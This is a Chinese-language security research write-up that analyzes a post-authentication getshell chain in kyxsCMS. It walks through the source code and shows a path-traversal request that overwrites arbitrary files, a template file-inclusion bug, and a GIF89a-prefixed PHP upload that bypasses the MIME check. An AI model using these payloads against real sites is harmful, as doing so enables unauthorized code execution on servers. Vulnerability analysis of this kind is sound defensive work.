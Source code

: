 @Author：Y4tacker

@Time：2021/4/15

# kyxsCMS后台getshell

昨晚看到可以Getshell那就看看呗，首先只能说在后台所以利用条件太高了

![](pic/1.png)

## 准备工作

首先去`http://bbs.kyxscms.com/?t/1.html`下载该漏洞版本，

然后记得配置伪静态，kyxscms官方有问题

```
location / {
	if (!-e $request_filename){
		rewrite  ^(.*)$  /index.php?s=$1  last;   break;
	}
}
```

## 分析阶段

进入正题，明显可以看到，在后台能找到有个模板管理的模块

![](pic/2.png)

为了快速定位函数位置，我们先随便点开一个点击保存，看到，直接全局搜索字符串，在`Template.php`中找到了答案

![](pic/3.png)

第64行

```php
  public function edit(){
        $Template=model('template');
        $data=$this->request->post();
        if($this->request->isPost()){
            $res = $Template->edit($data);
            if($res  !== false){
                return $this->success('模版文件修改成功！',url('index'));
            } else {
                $this->error($Template->getError());
            }
        }else{
            $path=urldecode($this->request->param('path'));
            $info=$Template->file_info($path);
            $this->assign('path',$path);
            $this->assign('content',$info);
            $this->assign('meta_title','修改模版文件');
            return $this->fetch();
        }
    }
```

继续跟进edit

```
public function edit($data){
        return File::put($data['path'],$data['content']);
    }

```

看到接收两个参数`content=xxxx&path=template/home/default_web/lists.html`，

当然我们也应该继续分析跟进put函数，完全没过滤那就好说了

```
static public function put($filename,$content,$type=''){
        $dir   =  dirname($filename);
        if(!is_dir($dir))
            mkdir($dir,0755,true);
        if(false === file_put_contents($filename,$content)){
            throw new \think\Exception('文件写入错误:'.$filename);
        }else{
            self::$contents[$filename]=$content;
            return true;
        }
    }
```

经过我的测试存在目录穿越，因此可以修改任意文件的

```
content=122222&path=../koko.top/template/home/default_web/lists.html
```

那暴力点，从目录有个index.php直接改掉不就起飞

![](pic/4.png)



不过这个index.php是我们的入口文件，我们搞安全当然不能这么坏把整个站都搞坏了，那么我们还有个思路就是在原来的代码中给他多加一行代码即可，当然我们还有其他姿势，请继续看下去，在文件模板存在文件包含，那么我们也可以搞事情啊

![](pic/5.png)

配合上面这个任意文件修改洞，我们修改robots.txt然后包含进去，那必然起飞好吧

![](pic/6.png)

当然我还发现有一个文件上传漏洞

![](pic/7.png)

```
选择的图片中包含不支持的格式
```

我一去看文件，发现在一个js文件找到了答案，前端过滤啊hhh，当然我继续从代码层面分析，发现也有后端过滤

```
public function pic(){
        $file = $this->request->file('file');
        $info = $file->validate(['ext'=>'jpg,jpeg,png,gif,webp,bmp','type'=>'image/jpeg,image/png,image/gif,image/webp,image/bmp'])->move(config('web.upload_path').$this->request->param('path'));
        if($info){
            $this->success('上传成功！','',['path'=>substr(config('web.upload_path'),1).$this->request->param('path').'/'.str_replace('\\','/',$info->getSaveName())]);
        }else{
            $this->error($file->getError());
        }
    }
```

这个validate没啥好说

```
public function validate($rule = [])
    {
        $this->validate = $rule;

        return $this;
    }
```

而这个move方法当中，第354行很明显看出，有一个校验

```
 // 验证上传
        if (!$this->check()) {
            return false;
        }
```

那我们继续分析

```
 if ((isset($rule['size']) && !$this->checkSize($rule['size']))
            || (isset($rule['type']) && !$this->checkMime($rule['type']))
            || (isset($rule['ext']) && !$this->checkExt($rule['ext']))
            || !$this->checkImg()) {
            return false;
        }
```

很简单，检验大小，是否为图片后缀，然后检查MIme，看下这个也很简单逻辑

```
public function checkMime($mime)
    {
        if (is_string($mime)) {
            $mime = explode(',', $mime);
        }

        if (!in_array(strtolower($this->getMime()), $mime)) {
            $this->error = 'mimetype to upload is not allowed';
            return false;
        }

        return true;
    }
```

那肯定`GIF89a`一瞬绕过，那么接下来我们构造一个叫`1.png`的文件，内容为

```
GIF89a
<?php phpinfo();?>
```

![](pic/8.png)

傻乎乎给了地址，再配合上面文件包含，一瞬拿下